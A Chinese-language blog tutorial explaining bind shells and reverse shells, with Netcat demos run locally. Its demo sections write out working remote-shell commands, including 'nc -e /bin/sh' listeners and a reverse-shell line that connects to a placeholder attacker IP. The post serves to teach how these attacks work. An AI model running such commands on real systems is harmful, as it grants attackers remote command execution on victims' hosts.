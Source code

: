 ```yaml
---
id: "06f2b810960ff302feca626e7ecb1870829c37e4"
title: "Bind Shell 與 Reverse Shell"
description: ""
date: 2021-01-10T21:00:59+08:00
draft: false
featureImage: "/images/hero-main.jpg"
images:
    - "/images/og_image.png"
categories:
    - 資訊安全
tags:
    - 攻擊手法
    - Netcat
    - 遠端執行指令攻擊
aliases:
    - /post/2021/bind_shell_and-reverse_shell_with_netcat/
---
```


Bind Shell 與 Reverse Shell 是兩種常見的遠端執行指令的技術，讓攻擊者可以向目標主機發送並執行指令，常與檔案上傳漏洞 (File Upload Vulnerabilities) 搭配使用。

這是我在研究檔案上傳漏洞時發現的一個有趣的攻擊手法，所以把它記錄下來，但也沒有太深入去專研，所以讀完本文不會讓你精通，只會讓你簡單了解並知道如何使用。

本文將使用 Netcat 來 Demo。

<!--more-->

## Bind Shell

Bind Shell 是在目標主機中，將 Shell (或其他執行的程式) 綁定在某一個 Port 上，執行由那個 Port 收到的指令，而攻擊者就可以建立連線後，利用對這個 Port 發送指令進而執行攻擊指令。

如果防火牆有擋 Port，就不能用這個方式，要改用 [Reverse Shell](#reverse-shell)。

{{<mermaid>}}

graph LR
    subgraph "Bind Shell"
    a[發送攻擊指令] --連線某個 TCP Port-->b
    subgraph 攻擊者
        a
    end
    subgraph 目標
        b[Shell]
    end
    end

{{</mermaid>}}

### Demo

使用 Netcat 示範，並使用本機兩個終端來分別模擬攻擊者與目標主機，而 Port 將使用 1234。

#### 執行步驟

1. 於目標上監聽 Port 1234，並使用 sh 去執行。
   
   ```bash
   nc -l -v -p 1234 -e /bin/sh
   ```
   
2. 攻擊者與 Port 1234 建立連線。
   
   ```bash
   nc <目標 IP> 1234
   ```

3. 下達攻擊指令 (為了模擬，使用 `pwd` 代替)

{{< img src="/images/2021/bind_shell_demo.png" caption="Bind Shell Demo (左為攻擊者 / 右為目標)" >}} 

可以看到圖中，攻擊者執行 `pwd` 拿到了目標主機的路徑，也就代表有成功執行遠端指令。

## Reverse Shell

Reverse Shell 剛好跟 Bind Shell 相反，是在攻擊者這邊監聽一個 Port，然後將目標主機與這個 Port 建立連線，再將收到的指令由 Shell (或其他執行的程式) 執行。

常用於因為防火牆規則無法與其他 Port 建立連線時，但可以對外連線時使用。

{{<mermaid>}}

graph RL
subgraph "Reverse Shell"
    b --連線某個 TCP Port-->a[發送攻擊指令]
subgraph 攻擊者
    a
end
subgraph 目標
    b[Shell]
end
end

{{</mermaid>}}

### Demo

使用 Netcat 示範，並使用本機兩個終端來分別模擬攻擊者與目標主機，而 Port 將使用 1234。

#### 執行步驟

1. 攻擊者監聽 Port 1234。
   
   ```bash
   nc -l -v -p 1234
   ```

2. 目標主機與攻擊者的 Port 1234 建立連線，並使用 sh 去執行。
   
   ```bash
   nc <攻擊者 IP> -e /bin/sh
   ```

3. 下達攻擊指令 (為了模擬，使用 `pwd` 代替)

{{< img src="/images/2021/reverse_shell_demo.png" caption="Reverse Shell Demo (左為攻擊者 / 右為目標)" >}}

可以看到圖中，攻擊者執行 `pwd` 拿到了目標主機的路徑，也就代表有成功執行遠端指令。

## 備註

雖然現在在 Linux 上直接安裝的 Netcat 不會帶有 `-e` 的參數，但還是有其他的替代方式可以使用，但本文 Demo 只為了簡單講解其運作方式，使用 `-e` 的方式執行。
